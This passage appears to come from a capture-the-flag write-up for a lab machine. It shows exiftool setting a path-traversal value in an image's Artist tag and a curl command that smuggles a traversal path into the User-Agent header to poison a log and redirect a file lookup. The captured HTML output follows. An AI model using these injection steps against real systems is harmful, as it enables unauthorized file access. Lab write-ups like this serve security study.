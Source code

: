 ```bash
	<image>
		<uri>/img/smooch.jpg</uri>
		<views>1</views>
	</image>
	<image>
		<uri>/img/smiley.jpg</uri>
		<views>1</views>
	</image>
	<totalviews>2</totalviews>
</credits>
```

And upload it to the machine.

### Metadata

With one of the site’s images: greg.jpg

```bash
❯ exiftool -Artist='../tmp/hax' greg.jpg 
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - greg.jpg
    1 image files updated
```

Let us now make a malicious request to the remote host in order to create an entry in the /opt/panda_search/redpanda.log file, such that it redirects the getArtist() function to our malicious
image file. We can use cURL for this purpose along with the -A flag to send a request with a custom UserAgent HTTP header.

```bash
curl -A "evil||/../../../../../../../../../../tmp/greg.jpg" http://10.10.11.170:8080/
```

```bash
❯ curl -A "evil||/../../../../../../../../../../tmp/greg.jpg" http://10.10.11.170:8080/
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <meta author="wooden_k">
    <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
    <link rel="stylesheet" href="css/panda.css" type="text/css">
    <link rel="stylesheet" href="css/main.css" type="text/css">
    <title>Red Panda Search | Made with Spring Boot</title>
  </head>
  <body>

    <div class='pande'>
      <div class='ear left'></div>
      <div class='ear right'></div>
      <div class='whiskers left'>
          <span></span>
          <span></span>
          <span></span>
      </div>
      <div class='whiskers right'>
        <span></span>
        <span></span>
        <span></span>
      </div>
      <div class='face'>
        <div class='eye left'></div>
        <div class='eye right'></div>
        <div class='eyebrow left'></div>
        <div class='eyebrow right'></div>

```